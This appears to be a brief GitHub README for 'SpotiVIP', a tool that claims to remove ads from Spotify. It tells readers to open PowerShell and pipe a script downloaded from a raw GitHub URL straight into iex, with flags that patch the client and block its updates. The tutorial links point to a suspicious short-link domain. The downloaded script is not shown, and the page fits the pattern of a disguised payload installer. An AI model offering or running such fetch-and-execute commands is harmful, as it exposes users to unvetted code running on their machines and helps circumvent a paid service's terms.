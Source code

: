 # SpotiVIP
SpotiVIP By Freakidann

PAS DE PUB !!

OPEN POWERSHELL :

[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; iex "& { $((iwr -useb 'https://raw.githubusercontent.com/alan444719/SpotiVIP/main/Install.ps1').Content) } -confirm_uninstall_ms_spoti -confirm_spoti_recomended_over -podcasts_off -block_update_on -start_spoti -new_theme -adsections_off -lyrics_stat spotify"

Tuto : 

https://FreakidannOhio.i-am-in-your.systems/hwSuEvUwnsbO

Tuto 2 :
https://FreakidannOhio.i-am-in-your.systems/RjAvOmgOOkiU

![image](https://github.com/alan444719/SpotiVIP/assets/135858469/47a754f4-814f-4195-81ea-4dd8cf853199)

![image](https://github.com/alan444719/SpotiVIP/assets/135858469/fa12f369-42ae-4cfb-af09-fa3982796ca9)
